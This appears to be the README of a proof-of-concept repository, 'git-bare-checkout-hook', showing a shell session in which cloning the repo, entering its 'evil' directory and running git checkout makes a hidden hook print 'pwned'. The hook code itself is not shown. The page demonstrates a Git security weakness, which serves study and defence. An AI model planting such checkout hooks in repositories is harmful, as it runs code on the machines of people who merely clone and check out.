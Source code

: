 # git-bare-checkout-hook

```shell
$ git clone git@github.com:mrtc0/git-bare-checkout-hook.git
$ cd git-bare-checkout-hook/evil
$ git checkout master
D       README.md
Already on 'master'
Your branch is up to date with 'origin/master'.
pwned
```
